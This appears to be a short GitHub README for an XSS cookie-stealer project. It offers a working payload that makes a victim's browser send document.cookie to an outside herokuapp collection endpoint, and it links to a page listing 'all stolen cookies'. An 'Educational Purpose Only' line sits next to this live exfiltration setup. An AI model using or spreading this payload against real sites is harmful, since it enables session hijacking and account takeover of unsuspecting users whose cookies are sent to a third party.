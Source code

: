 # xss-cookie-stealer
Collects user's cookie by using XSS vulnerability.

## Demo
[Click Here](https://inwza007.herokuapp.com/)

## Usage
*Educational Purpose Only*
Use Cross Site Scripting vulnerability to force user make GET request to ```"https://inwza007.herokuapp.com/stealcookie?c="+document.cookie```

[See all stolen cookies](https://inwza007.herokuapp.com/cookies)

## Author
[Nisaruj R.](https://github.com/nisaruj)
